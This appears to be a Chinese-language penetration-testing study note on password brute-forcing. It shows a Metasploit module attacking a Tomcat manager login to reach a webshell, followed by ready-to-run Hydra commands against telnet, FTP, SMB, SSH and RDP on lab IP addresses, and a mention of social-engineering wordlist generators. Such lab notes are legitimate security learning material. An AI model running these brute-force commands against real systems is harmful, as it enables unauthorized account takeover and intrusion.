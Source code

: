 ## Tomcat后台弱口令爆破getshell

![image-20221009142413873](Tomcat%E5%90%8E%E5%8F%B0%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4getshell.assets/image-20221009142413873.png)

找到登录地址:http://172.16.105.192:48604/

kali中打开MSF

搜索tomcat利用脚本:`search tomcat `

![image-20221009142628794](Tomcat%E5%90%8E%E5%8F%B0%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4getshell.assets/image-20221009142628794.png)

使用auxiliary/scanner/http/tomcat_mgr_login 模块进行tomcat弱口令爆破:`use auxiliary/scanner/http/tomcat_mgr_login`

查看需要设置的参数:`show options`

![image-20221009142757508](Tomcat%E5%90%8E%E5%8F%B0%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4getshell.assets/image-20221009142757508.png)



先用默认字典尝试,只需要设置远程主机rhosts和远程端口rport即可

```bash
set rhosts 172.16.105.192
set rport 48604/
```

![image-20221009143023055](Tomcat%E5%90%8E%E5%8F%B0%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4getshell.assets/image-20221009143023055.png)



开始爆破

```bash
run或者exploit都可
```

![image-20221009143126541](Tomcat%E5%90%8E%E5%8F%B0%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4getshell.assets/image-20221009143126541.png)

成功拿到密码



如果默认字典无法爆出密码,则可以使用自己构建的字典

```
如果用桌面上字典 则需要设置set PASS_FILE ‘root/Desktop/password.txt’
set USER_FILE ‘root/Desktop/user.txt’
```

获取到密码后即可登录后台getshell

## 网络服务弱口令爆破

在线爆破受网络因素、字典、电脑性能影响较大。扫描端口分析服务进行爆破攻击：smb、telnet、ftp、rdp、mysql、mssql、ssh

#### Hydra九头蛇

> 参考链接:https://blog.csdn.net/u012206617/article/details/86306358

- -l 指定单个用户名，适合在知道用户名爆破用户名密码时使用
- -L 指定多个用户名，参数值为存储用户名的文件的路径(建议为绝对路径)
- -p 指定单个密码，适合在知道密码爆破用户名时使用
- -P 指定多个密码，参数值为存贮密码的文件(通常称为字典)的路径(建议为绝对路径)
- -C 当用户名和密码存储到一个文件时使用此参数。注意，文件(字典)存储的格式必须为 “用户名:密码” 的格式。
- -M 指定多个攻击目标，此参数为存储攻击目标的文件的路径(建议为绝对路径)。注意：列表文件存储格式必须为 “地址:端口”
- -t 指定爆破时的任务数量(可以理解为线程数)，默认为16
- -s 指定端口，适用于攻击目标端口非默认的情况。例如：http服务使用非80端口
- -S 指定爆破时使用 SSL 链接
- -R 继续从上一次爆破进度上继续爆破
- -v/-V 显示爆破的详细信息
- -f 一但爆破成功一个就停止爆破
- server 代表要攻击的目标(单个)，多个目标时请使用 -M 参数
- service 攻击目标的服务类型(可以理解为爆破时使用的协议)，例如 http，在hydra中，不同协议会使用不同的模块来爆破，hydra的http-get 和 http-post 模块就用来爆破基于 get 和 post 请求的页面
- OPT 爆破模块的额外参数，可以使用 -U 参数来查看模块支持那些参数，例如命令：hydra -U http-get

#### Hydra命令行爆破

##### Hydra爆破telnet

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 telnet://192.168.198.133:23
```

##### Hydra爆破ftp

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ftp://192.168.198.133:21
```

##### Hydra爆破smb

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 smb://192.168.198.133:445
```

##### Hydra爆破ssh

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ssh://192.168.198.131:22
```

##### Hydra爆破rdp

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 rdp://192.168.198.133:3389
```

## 社工字段生成器

社工字段生成工具可以根据收集到的社工信息生成相对应的密码字典,比如姓名、生日、特殊日子、邮箱、公司等等,可以使用图形化字典生成器输入相应数据直接生成